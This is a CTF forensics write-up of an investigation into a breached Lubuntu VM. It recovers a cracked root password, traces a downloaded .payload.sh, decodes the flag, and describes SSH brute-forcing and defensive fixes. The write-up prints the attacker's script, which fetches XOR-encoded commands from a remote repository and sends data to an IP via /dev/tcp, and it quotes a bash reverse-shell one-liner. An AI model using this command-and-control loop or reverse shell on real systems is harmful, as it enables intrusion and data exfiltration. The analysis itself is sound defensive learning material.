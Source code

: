 # Challenge Name: DFIR

![date](https://img.shields.io/badge/date-24.04.2021-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![forensics category](https://img.shields.io/badge/category-Forensics-blueviolet.svg)   
![value](https://img.shields.io/badge/value-400-blue.svg)  


## Description

Our Lubuntu server has been breached! We recieved an alert about it communicating with malicious servers and we saw a SIGNIFICANT increase in CPU usage. We SSHed in and saw that changes had been made to the / directory. We need to know how this attacker got in (so we can keep him out in the future) and what he was using our server for...

uname: "victem" (ya, we kinda jinxed ourselves with that name) pw: "correct-horse-battery-staple"

Download: https://drive.google.com/file/d/16sV8pXSrG22KL4zJ9VrpZTcZAs_N9XYw/view 

## Detailed solution  

Start by importing the virtualbox machine and run it 

![image](https://user-images.githubusercontent.com/72421091/116092049-fde5d280-a694-11eb-93e7-3d1c3011ebac.png)

Let's SSH to the machine using the credentials in description ```victem / correct-horse-battery-staple``` get more confortable 

Our machine is a ```Lubuntu 18.04 LTS``` and the linux kernel version is ```4.15.0-20``` 

![image](https://user-images.githubusercontent.com/72421091/116094116-ca0bac80-a696-11eb-985f-8ee3b03d722e.png)

The description mention that that changes had been made to the / directory so let's go check it 

![image](https://user-images.githubusercontent.com/72421091/116096118-89149780-a698-11eb-9b94-39c013a822ee.png)

The file ```cluster-crack.pot``` is suspicious let's read it  

```
cat cluster-crack.pot

$6$fZ/iAgR.$FHl9m/ibTVBQ3OQ645IiLtrcxSsxdt8pTQHh7knfQ2GhD7Pbu0Dv0evXaGnnMVjV7xe5KlRprL5hWEjE6/Ruj0:toor
```

We can see a decrypted linux hash password which is ```toor``` which is a commun default root password 

The POT file is where john stores passwords that it has already cracked for display with the "--show" command  

So the attacker used john the decrypt the users hash password 

Checking the passwd file we can see the users root and victem 

![image](https://user-images.githubusercontent.com/72421091/116098680-caa64200-a69a-11eb-835c-9be03c5a1c45.png)

Let's switch to ```root``` with the password ```toor``` and check the bash history 

![image](https://user-images.githubusercontent.com/72421091/116099769-d2b2b180-a69b-11eb-9ff3-ac36623743b5.png)  

NB : the line 6 is wrong it's sould be ```wget https://gitlab.com/thehacker1/payload/-/blob/master/.payload.sh```  

![image](https://user-images.githubusercontent.com/72421091/116101630-82d4ea00-a69d-11eb-9d94-b4d6f74c5c25.png)

We can see two attacks, running a payload.sh and cracking the shadow file hashes using john and the wordlist rockyou.txt

The files has been downloaded from a gitlab repository https://gitlab.com/thehacker1/payload/-/tree/master 

![image](https://user-images.githubusercontent.com/72421091/116103519-312d5f00-a69f-11eb-997f-9c19f201bccd.png)

**.payload.sh file**

```bash
#!/bin/bash

W=$((15*60))
K=120

while true
do
	echo "sleeping for $W seconds"
	sleep $W
	rm .encrypted_csv.data
	wget https://gitlab.com/thehacker1/payload/-/raw/master/.encrypted_csv.data
	echo "downloaded file"
	F="./.encrypted_csv.data"
	hexdump -v -e '/1 "%u\n"' $F | while read B; do
		E=$((K^B))
		C=$(printf \\$(printf '%03o' $E))
		echo -n $C >> encrypted.csv
	done
	echo "decrypted newest command"
	S=$(cat encrypted.csv)
	rm encrypted.csv
	S="${S::-1}"
	D=,
	S=$S$D
	array=();
	while [[ $S ]]; do
		array+=( "${S%%"$D"*}" );
		S=${S#*"$D"};
	done;
	declare -a array
	M=${array[0]}
	I=${array[1]}
	P=${array[2]}
	M=${M##WPI}
	echo "routing message to $I:$P"
	echo "$M" > /dev/tcp/$I/$P
done
```

We can see some steps :

- Download the .encrypted_csv.data file from the gitlab repository using wget
- Decrypting the file : convert .encrypted_csv.data to decimal values, xor using K=120, converto to octal values and print the ascii charactere
- encrypted.csv : WPI{open-ports-will-be-abused},185.22.155.51,80r
- Save encrypted.csv as array : M is our flag, I the ip adresse and P the port 
- echo "$M" > /dev/tcp/$I/$P : similar to a bash reverse shell ```bash -i >& /dev/tcp/10.0.0.1/8080 0>&1```

A bash script for decryption to get the flag 

```bash
#!/bin/bash

wget https://gitlab.com/thehacker1/payload/-/raw/master/.encrypted_csv.data #Download file from the gitlab repository
echo "[+] Downloaded file"

F="./.encrypted_csv.data"
K=120

hexdump -v -e '/1 "%u\n"' $F | while read B; do   # Convert .encrypted_csv.data values to decimal one byte for each line and start a loop
        E=$((K^B))                                # xor K=120 and the decimal value from .encrypted_csv.data (1 byte line)
        C=$(printf \\$(printf '%03o' $E))         # Convert the xor output to octal and print the ascii character
        echo -n $C >> encrypted.csv
done

echo "[+] Decrypted"

S=$(cat encrypted.csv) # S --> WPI{open-ports-will-be-abused},185.22.155.51,80r
flag="${S:0:30}"
echo "[+] Flag : $flag"
```
![image](https://user-images.githubusercontent.com/72421091/116130198-79a64600-a6ba-11eb-85e8-f0364d87e288.png)


## Flag

```
WPI{open-ports-will-be-abused}
```

## How the attacker get in  

Starting by performing ports scan using nmap 

![image](https://user-images.githubusercontent.com/72421091/116132345-f89c7e00-a6bc-11eb-9a4b-6f2163f959e9.png)

We can see the port 22/TCP runinng the OpenSSH 7.6p1 which is vulnerable to a username enumeration attack https://nvd.nist.gov/vuln/detail/CVE-2018-15473  

I tried user enumeration using this exploit https://www.exploit-db.com/exploits/45233 and the metasploit module auxiliary/scanner/ssh/ssh_enumusers but no success

I tried to bruteforce ssh credentials using hydra with a default credentials list https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt 

![image](https://user-images.githubusercontent.com/72421091/116150292-b5e5a080-a6d2-11eb-9926-f09203bdc253.png)

So we can access the server using SSH as root 

### Fix

- Disable direct root ssh login
- Upgrade OpenSSH to latest version

Some best practices explained by liveoverflow  

https://www.youtube.com/watch?v=fKuqYQdqRIs







